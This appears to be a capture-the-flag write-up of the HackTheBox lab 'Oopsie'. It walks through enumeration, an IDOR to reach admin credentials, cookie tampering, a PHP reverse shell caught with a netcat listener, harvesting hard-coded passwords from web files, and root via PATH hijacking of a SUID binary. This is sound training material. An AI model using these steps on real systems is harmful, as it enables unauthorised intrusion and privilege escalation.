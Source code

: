 ```yaml
---
title: Starting Point | Oopsie
author: Zeropio
date: 2022-03-06
categories: [Pentesting, HackTheBox]
tags: [htb]
permalink: /pentesting/htb/starting-point/oopsie
---
```



# Enumeration

The nmap will show us:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-05 16:47 EST
Nmap scan report for 10.129.111.155
Host is up (0.048s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.95 seconds
```

If we search the ip in the Firefox we can access to a webpage:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/starting-point/img/Screenshot_3.jpg" weight="100%" />

Now we can crawl the page with **ZAP**, we will find a login page:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/starting-point/img/Screenshot_4.jpg" weight="100%" />

---

# Foothold

Now we have access to the login page:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/starting-point/img/Screenshot_6.jpg" weight="100%" />

We can see we need super admin privilages to get access to the super admin account:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/starting-point/img/Screenshot_7.jpg" weight="100%" />

We can see the **id=2**.:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/starting-point/img/Screenshot_8.jpg" weight="100%" />

If we change to 1:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/starting-point/img/Screenshot_9.jpg" weight="100%" />

Now we can use those credentials to change the cookies:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/starting-point/img/Screenshot_10.jpg" weight="100%" />

We will upload a reverse shell in php and use gobuster to find where it is uploaded:
```console
> gobuster dir -u http://10.129.95.191/ -w /usr/share/wordlists/directory-list-2.3-small.txt -x php 

/uploads              (Status: 301) [Size: 316] [--> http://10.129.95.191/uploads/]
```

We will open a netcat and execute the reverse shell through the browser:
```console
> sudo nc -lvvp 1234
```

Now we have access to the system and to the user flag:
```console
> cat /home/robert/user.txt
```

We can import a python module to get a better shell:
```console
> python3 -c 'import pty;pty.spawn("/bin/bash")'
```

---

# Privilege Escalation

Inside we can search in the Apache server and find the password:
```console
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat * | grep pass
        if($_POST["username"]==="admin" && $_POST["password"]==="MEGACORP_4dm1n!!")
```

In the **db.php** file we can get another passwords:
```console
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php
        <?php
        $conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
        ?>
```

We can now use that password to access robert user:
```console
www-data@oopsie:/var/www/html/cdn-cgi/login$ su robert
Password: M3g4C0rpUs3r!
```

With the **id** command we can see that Robert is in the same group as bugtracker.
```console
robert@oopsie:/$ id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```

We can now search for the bugtracker group:
```console
robert@oopsie:/$ find / -group bugtracker 2>/dev/null
/usr/bin/bugtracker
```

We can see that **bugtracker** is using cat. If we create a file name **cat** inside **/tmp**, replace the content by **/bin/sh** and change the PATH to **/tmp** and execute bugtracker, we get a shell with root.

##### I need to remove the file cat after getting access to root, so I can make a cat to the flags.

